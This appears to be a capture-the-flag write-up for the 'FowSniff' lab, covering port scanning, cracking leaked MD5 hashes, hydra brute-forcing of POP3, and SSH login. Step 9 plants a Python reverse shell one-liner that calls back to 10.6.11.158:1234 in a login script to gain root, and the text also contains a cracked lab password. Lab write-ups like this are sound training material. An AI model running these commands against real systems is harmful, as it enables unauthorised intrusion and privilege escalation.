 # FowSniff

## 1. Using nmap, scan this machine. What ports are open?
Run `nmap -sCV -p- $ip` this can take very long however so I used rustscan instead by using `rustscan -a $ip`

![screenshot](images/scan.png)

## 2. Using the information from the open ports. Look around. What can you find?
4 Ports are open some interesting one are ssh, http and pop3
 
## 3. Using Google, can you find any public information about them?
We visit their website and found that they experienced
a data breach. Googling fowsniff corp gave us some email
and password hashes

![screenshot](images/leak.png)

## 4. Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.
Use website like hashkiller to decode them. The password
used by the employee are quite weak

![screenshot](images/pass.png)

## 5. Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?
Use `hydra -L <Userlist> -P <PassList> -f $ip pop3. we see that the user seina reused password for her pop3 acc.

![screenshot](images/hydra.png)

## 6.What was seina's password to the email service?
scoobydoo2

## 7. Looking through her emails, what was a temporary password set for her?
run `nc $ip 110` to access the pop3 server.
Run `USER seina` and `PASS scoobydoo2`. Run
RETR 1 and we can see the temporary password
There is another mail from baksteen 

![screenshot](images/pop3.png)

## 8. In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.
View mail 2 and ssh using that user name. He has the default password

## 9. Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?
When we login, we are greeted with a cube and the company logo. Run sudo -l and baksteen do not have any sudo rights. Upload linpeas.sh using python webserver `python -m http.server`

![screenshot](images/linpeas.png)

then in target machine do `wget $ip:8000/linpeas.sh` Do chmod +x linpeas.sh to set executable and run it. Linpeas highlighted cube.sh file which has elevated rights. We see that the cube is displayed when we login so this means that if we include our reverse shell code and relogin, we will get elevated shell.
Reverse shell `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.11.158",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![screenshot](images/exploit.png)

![screenshot](images/priv.png)
